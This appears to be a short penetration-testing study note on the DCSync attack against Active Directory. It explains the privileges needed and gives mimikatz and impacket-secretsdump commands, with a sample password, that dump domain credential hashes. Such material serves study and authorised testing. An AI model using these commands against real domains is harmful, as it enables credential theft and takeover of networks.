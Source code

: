 >to perform this attack, we need a user that is a member of Domain Admins, Enterprise Admins, or Administrators, because there are certain rights required to start the replication. Alternatively, we can leverage a user with these rights assigned, though we're far less likely to encounter one of these in a real penetration test.
```
lsadump::dcsync /user:Administrator
lsadump::dcsync /user:corp\Administrator
kali: impacket-secretsdump -just-dc corp.com/controlledUser:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
